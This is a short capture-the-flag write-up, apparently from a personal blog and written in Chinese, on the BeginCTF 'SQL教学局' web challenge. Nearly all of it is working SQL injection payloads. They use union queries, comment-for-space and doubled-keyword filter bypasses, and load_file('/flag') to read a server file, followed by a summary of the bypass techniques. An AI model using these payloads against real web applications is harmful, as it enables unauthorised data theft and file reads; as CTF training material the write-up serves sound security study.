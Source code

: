 ```yaml
---
title: BeginCTF-SQL教学局
category: CTF-Web-SQL
date: 2024-2-3
---
```


> source:[BeginCTF]SQL教学局

## info

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-1.png)

## EXP

```cpp
?user=1'/**/union/**/seselectlect/**/flag/**/frofromm/**/secret.passwoorrd%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-2.png)

```cpp
?user=1'/**/union/**/seselectlect/**/grade/**/frofromm/**/scoorre/**/where/**/student/**/like/**/'begin'%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-3.png)

```cpp
?user=1'/**/union/**/seleselectct/**/loaloadd_file('/flag')%23
```

![img]([https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/](https://x1lys.github.io/X1lyS.blog.github.io/src/assets/img/)7-1-4.png)

## Summary

```cpp
类型：
联合查询注入

注释：
%23

空格过滤绕过：
/**/

关键字'or','from','select','load'过滤绕过：
双写关键字

and过滤绕过：
like

文件读取函数：
load_file('/path')
```

